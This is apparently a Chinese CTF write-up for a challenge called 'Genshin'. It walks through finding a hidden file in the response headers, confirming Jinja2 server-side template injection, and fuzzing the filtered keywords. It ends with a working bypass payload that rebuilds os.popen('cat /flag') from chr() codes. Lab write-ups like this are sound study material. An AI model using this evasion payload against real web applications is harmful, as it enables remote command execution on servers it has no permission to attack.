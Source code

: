 

这个看看本地能不能跑，不知道为什么都不出flag了

![image-20231208101310378](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101310378.png)

![image-20231208101224399](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101224399.png)



## Genshin

dirsearch没有扫出来，报429

看看消息头吧，f12和抓包都行

![image-20231208101426177](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101426177.png)

有一个secr3tofpop文件，进去看看

让我们输一个变量

![image-20231208101537188](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101537188.png)

![image-20231208101559908](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101559908.png)

试试有没有模板注入

![image-20231208101633582](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101633582.png)

看样子应该是存在ssti注入

试试用{%%}执行命令

![image-20231208101817335](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208101817335.png)

没有过滤

先fuzz一下，看看过滤了什么：`init`，`popen`，`‘`

popen过滤的话可以考虑ascii码绕过，init则可以用拼接的方法

```
?name={%print""|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr(10)|attr("__in"+"it__")|attr("__globals__")|attr("get")("__builtins__")|attr("get")("eval")("eval(chr(95)%2bchr(95)%2bchr(105)%2bchr(109)%2bchr(112)%2bchr(111)%2bchr(114)%2bchr(116)%2bchr(95)%2bchr(95)%2bchr(40)%2bchr(39)%2bchr(111)%2bchr(115)%2bchr(39)%2bchr(41)%2bchr(46)%2bchr(112)%2bchr(111)%2bchr(112)%2bchr(101)%2bchr(110)%2bchr(40)%2bchr(39)%2bchr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%2bchr(39)%2bchr(41)%2bchr(46)%2bchr(114)%2bchr(101)%2bchr(97)%2bchr(100)%2bchr(40)%2bchr(41))")%}
```

